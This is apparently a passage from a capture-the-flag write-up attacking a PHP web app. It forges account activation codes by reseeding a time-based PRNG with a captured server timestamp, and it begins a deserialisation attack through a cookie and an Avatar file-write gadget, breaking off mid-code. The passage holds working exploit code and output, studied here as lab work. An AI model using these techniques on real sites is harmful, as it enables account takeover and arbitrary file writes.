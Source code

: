 Can also generate our own activation codes.
```php
function generate_activation_code() {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand(time());
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    return $activation_code;
}
```

Lets do that real quick.

# User login
Going to make a new user and capture request in burp so we get the time stamp.
```json
Date: Thu, 13 Apr 2023 08:45:04 GMT
```


```php
<?php
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand(strtotime('Date: Thu, 13 Apr 2023 08:45:04 GMT'));
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    echo $activation_code;
    echo "\n";
?>

s0poBxr66rpgq4iUGg5BKjlsALfBncZi
```

And going to `active.php?code=s0poBxr66rpgq4iUGg5BKjlsALfBncZi` activates the account.

# PHP deserilisation
From here we can change the theme which has that serialised cookie.
```php
O:9:"UserPrefs":1:{s:5:"theme";s:4:"dark";}
```

To get this to work we need a public `__wakeup` or `__destruct` method.

There is a `__wakeup` in the AvatarInterface object.
```php
class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp;
    public $imgPath; 
```